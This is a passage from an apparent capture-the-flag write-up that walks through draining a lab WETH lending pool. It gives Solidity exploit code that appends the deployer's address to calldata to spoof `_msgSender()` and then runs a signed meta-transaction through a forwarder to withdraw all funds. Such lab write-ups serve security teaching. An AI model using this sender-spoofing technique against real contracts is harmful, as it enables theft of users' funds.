 The fees are credited to the deployer's account in the pool, which is crucial for the next part of our exploit.

#### Step 2: Crafting the Withdrawal Call

Once the receiver is drained, we need to withdraw all the pooled funds. To do this, we'll exploit the `_msgSender()` vulnerability to impersonate the deployer:

```solidity
// 2. Exploit the vulnerability in the _msgSender() mechanism for the withdrawal
callDatas[10] = abi.encodePacked(
    abi.encodeCall(
        pool.withdraw,
        (WETH_IN_POOL + WETH_IN_RECEIVER, payable(recovery))
    ),
    bytes32(uint256(uint160(deployer)))
);
```

This carefully crafted calldata:
1. Encodes a call to the `withdraw` function requesting all 1010 WETH
2. Appends the deployer's address as the last 20 bytes
3. When executed via the forwarder, will be interpreted as coming from the deployer
4. Allows withdrawal of all funds to our recovery address

#### Step 3: Preparing and Executing the Meta-Transaction

With our calldata prepared, we now need to create and sign a meta-transaction to be executed by the forwarder:

```solidity
// Combine all calls into a single transaction via multicall
bytes memory multicallData = abi.encodeCall(pool.multicall, callDatas);

// 3. Create a request for the forwarder
BasicForwarder.Request memory request = BasicForwarder.Request({
    from: player,
    target: address(pool),
    value: 0,
    gas: gasleft(),
    nonce: forwarder.nonces(player),
    data: multicallData,
    deadline: block.timestamp + 3600
});

// 4. Sign the request using EIP-712
bytes32 dataHash = forwarder.getDataHash(request);
bytes32 digest = keccak256(
    abi.encodePacked("\x19\x01", forwarder.domainSeparator(), dataHash)
);

(uint8 v, bytes32 r, bytes32 s) = vm.sign(playerPk, digest);
bytes memory signature = abi.encodePacked(r, s, v);

// 5. Execute the request via the forwarder
forwarder.execute(request, signature);
```
